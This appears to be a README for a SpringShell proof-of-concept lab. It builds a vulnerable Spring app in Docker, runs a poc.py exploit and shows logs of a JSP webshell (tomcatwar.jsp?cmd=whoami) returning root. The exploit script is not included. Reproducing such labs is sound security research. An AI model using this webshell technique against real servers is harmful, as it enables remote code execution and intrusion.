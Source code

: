 # SpringShell

## Deploy

`mvn package` -> Will create .war file
`docker build . -t spring` -> Will create docker image
`docker run --rm -d -p 8080:8080 --name spring spring:latest` -> Will create container
`docker build . -t spring && docker run --rm -d -p 8080:8080 --name spring spring:latest && sleep 5 && python3 poc.py` -> Will create container and execute PoC

## Results:
`docker logs -f <container_id>` or `docker logs -f (docker ps -a -q)`

```
deploy <Response [200]>
webshell <Response [404]>
webshell <Response [500]>
webshell http://localhost:8080/tomcatwar.jsp?cmd=whoami
root
```

## Info:
https://github.com/rive-n/SpringShell/blob/master/exploit.pdf
